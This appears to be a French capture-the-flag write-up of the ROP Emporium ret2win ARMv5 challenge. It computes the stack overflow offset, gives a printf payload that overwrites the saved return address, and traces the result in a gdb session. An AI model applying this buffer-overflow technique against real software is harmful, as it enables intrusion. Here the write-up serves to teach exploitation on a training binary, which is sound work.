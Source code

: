 L'appel de fonction (branche and link) utilise les registres r0,r1,r2.

La taille lue est 50 et le buffer de lecture est situé en fp-0x24. (fp-36)

Au moment du read : 

sp                                          fp
v                                           v
AAAAAAAA AAAAAAAA AAAAAAAA AAAAAAAA save_lr save_fp  
^                                   ^ 
buf=fp-0x24                         buf+0x20

L'offset de débordement est de 0x24 - 4  = 0x20 


## Exploitation

### En bash


    ret2win$ printf "%36s\xec\05\01" | qemu-arm -g 1337 ret2win_armv5 
    ret2win by ROP Emporium
    ARMv5

    For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
    What could possibly go wrong?
    You there, may I have your input please? And don't worry about null bytes, we're using read()!

    > Thank you!
    Well done! Here's your flag:
    ROPE{a_placeholder_32byte_flag!}

### En bash et suivi gdb

On va d'une part lancer notre executable avec qemu et une écoute gdb sur le port 1337.
    ret2win$ printf "%36s\xec\05\01" | qemu-arm -g 1337 ret2win_armv5 
    ret2win by ROP Emporium
    ARMv5

    For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
    What could possibly go wrong?
    You there, may I have your input please? And don't worry about null bytes, we're using read()!

D'autre part, sur un autre terminal, nous attacher au proces en remote sur ce port.
On pose un point d'arrêt sur l'appel read (pwnme+80).


    ret2win$ gdb-multiarch ret2win_armv5
    ...
    gef➤  target remote localhost:1337
    gef➤  b *pwnme+80
    Breakpoint 1 at 0x105c0
    gef➤  c

Avant le read

    gef➤  x/12x $sp
    0x40800188:	0x00000000	0x00000000	0x00000000	0x00000000
    0x40800198:	0x00000000	0x00000000	0x00000000	0x00000000
    0x408001a8:	0x408001b4	0x0001054c	0x00000000	0x3fe70790
                fp            lr
ni
